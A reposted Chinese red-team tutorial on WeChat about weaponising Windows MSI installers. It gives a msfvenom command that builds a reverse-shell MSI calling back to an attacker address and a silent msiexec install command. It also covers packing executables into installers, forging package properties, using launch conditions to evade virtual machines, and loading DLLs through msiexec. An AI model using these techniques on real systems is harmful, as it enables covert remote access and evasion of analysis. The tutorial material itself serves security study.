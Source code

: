 #  msi的简单使用

[ 合天网安实验室 ](javascript:void\(0\);)

**合天网安实验室** ![]()

微信号 hee_tian

功能介绍 为广大信息安全爱好者提供有价值的文章推送服务！

____

___发表于_

收录于合集

以下文章来源于红队蓝军 ，作者ziansec

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM7W04OGRgUkYHeWtkjjOCGraSXgV6UN8Ia8axnRtFtX6w/0)
**红队蓝军** .

一群热爱网络安全的人，知其黑，守其白。不限于红蓝对抗，web，内网，二进制。

## 前言

Windows Installer 使用安装包，其中包含 Windows Installer 需要安装、卸载或修复产品以及运行安装程序用户界面 (UI)
的信息。每个安装包都包含一个.msi文件，该文件包含安装数据库、摘要信息流和安装的各个部分的数据流。

## msf

直接加载msf的msi上线

    
    
    msfvenom -a x64 -p windows/x64/shell/reverse_tcp LHOST=192.168.11.1 LPORT=8888 -f msi -o 1.msi  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085826.png)

    
    
    handler -p windows/x64/shell/reverse_tcp -H 0.0.0.0 -P 8888  
          
    msiexec /q /i 1.msi  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085842.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085843.png)

## vs

下载扩展

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085845.png)

搜索创建msi文件即可

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085847.png)

利用文件系统和自定义操作选项，可以设置将在目标主机上释放的文件和执行的命令

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085849.png)

点击项目输出

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085850.png)

打包exe进msi

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085851.png)

可以添加图标

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085853.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085854.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085857.png)

创建快捷方式

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085858.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085902.png)

在扩展中可以对安装包的属性进行设置，部分属性会在msi文件的详细信息中体现，所以可以对属性进行一些伪造欺骗

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085904.png)

如果选择True时，在管理员权限下msiexec会使用SYSTEM权限执行安装:

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085905.png)

## 启动条件

点击view->启动条件

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085906.png)

可以设置硬件属性中的内存、分辨率来检测是否在虚拟机里启动

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085907.png)

比如这里要求物理内存必须大于多少字节才启动安装包

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085909.png)

可以通过`orca.exe`来查看其他软件的启动条件设置，下载链接：https://learn.microsoft.com/en-
us/windows/win32/msi/orca-exe

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085910.png)

常见的判断条件可参考：https://community.flexera.com/t5/InstallShield-Knowledge-
Base/Common-MSI-Conditions/ta-p/3854

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085911.png)

在安装时可以使用`msiexec /q /i MsiexecSetup.msi /log
123.log`方式输出日志文件，通过对比日志文件进行更详细的条件设置

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085915.png)

## 打包exe/二进制文件

MSI安装包中可以添加exe、dll、vbs、js类型二进制文件或脚本。常用操作是通过文件系统管理添加要执行的文件，然后在自定义操作中设置在几个阶段要执行的文件，文件释放位置可以使用系统文件夹属性变量

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085916.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085917.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085918.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085920.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085921.png)

打包安装

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085922.png)

## 加载dll

导出函数

    
    
    extern "C" __declspec(dllexport) void DllRegisterServer(HWND hwnd, HINSTANCE hinst)  
    {  
        MessageBoxA(NULL, "1", "DllRegisterServer", MB_OK);  
    };  
      
    extern "C" __declspec(dllexport) void DllUnRegisterServer(HWND hwnd, HINSTANCE hinst)  
    {  
        MessageBoxA(NULL, "2", "DllUnRegisterServer", MB_OK);  
    }  
    

msiexec程序也可以加载DLL执行，前提是DLL文件在磁盘上存在并且是64位的。通过命令行调用DLL中的`DllRegisterServer`或`DllUnRegisterServer`

    
    
    # DllUnRegisterServer  
    msiexec /z C:\windows\tmp\run.dll  
    # DllRegisterServer  
    msiexec /y C:\windows\tmp\run.dll  
    # 执行run.dll文件 DllRegisterServer  
    msiexec /y .\windows\tmp\run  
    # 执行 .dll 文件 DllRegisterServer  
    msiexec /y .\calc.dll  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085923.png)
**原创稿件征集**

征集原创技术文章中，欢迎投递

投稿邮箱：edu@antvsion.com

文章类型：黑客极客技术、信息安全热点安全研究分析等安全相关

通过审核并发布能收获200-800元不等的稿酬。

  

[更多详情，点我查看！](http://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652885477&idx=1&sn=39e97a60d7b68d19569284654e74ffa1&chksm=bd59ad288a2e243e4d89b7c456fbd44a93d241c881075b342af22431d93dca56e52076ed75ce&scene=21#wechat_redirect)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085925.png)靶场实操，戳“阅读原文“

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

